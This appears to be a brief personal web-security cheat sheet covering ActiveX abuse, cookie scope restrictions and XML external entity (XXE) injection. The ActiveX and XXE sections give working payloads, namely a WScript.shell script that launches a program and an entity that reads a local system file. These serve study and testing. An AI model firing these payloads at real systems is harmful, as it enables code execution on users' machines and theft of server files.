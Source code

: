 # Table of Contents
- [cross site trusting](#cross-site-trusting)
- [restrictions](#restrictions)
- [xxe](#xxe)

<br>
<br>

# cross site trusting
1) example
```
<script>
 var o = new ActiveXObject('WScript.shell');
 o.Run('calc.exe');
</script>
```

2) another example
```
document.<activex_object>.LaunchExe("calc.exe");
```

also try to search for commands like those below in order to figure out  
that the website uses Activex.

LaunchExe();  
SaveFile();  
LoadLibrary();  
ExecuteCommand();  
classid=  
also search for .cab files in the html

<br>
<br>

# restrictions
you can restrict cookies to only spcific domain and only specific paths like that  

Set-cookie: dani=din, path=/apps/, domain=dani.com;

the cookie will be restricted to the path and the pathes underneath him.  
it will also be restricted to the domain dani.com and all of his subdomains.

<br>
<br>

# xxe
1) example
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwrd" > ] >
```
and call it like this
```
<example>&xxe;</example>
```


